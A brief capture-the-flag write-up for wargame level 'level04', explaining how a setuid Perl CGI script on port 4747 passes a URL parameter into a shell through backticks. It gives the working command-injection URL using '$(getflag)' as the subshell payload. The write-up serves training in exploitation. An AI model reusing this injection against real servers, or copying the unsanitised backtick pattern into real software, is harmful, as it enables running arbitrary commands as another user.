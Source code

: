 ## level04 writeup

When logging in as user level04, we see a perl script with the suid flag. Which means when this script is executed its going to be executed as the owner, who is flag04.
We want to see what's in this perl file.
```shell
$ ls -l
...
-rwsr-sr-x  1 flag04  level04  152 Mar  5  2016 level04.pl
...
$ cat level04.pl
```
```perl
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
```
We see this script might run on the 4747 port. So we can check in our browser. \
Indeed we have an apache server serving this file on this port. The script loads an `x` param from the url. \
Also the `print` function calls `echo` with the `x` parameter value. As we said before, the script will be executed as flag04. \
With this, we can execute whatever command we want by using a subshell. \
So we can do `http://VM_IP:4747?x=$(getflag)` and the flag is printed on the page.
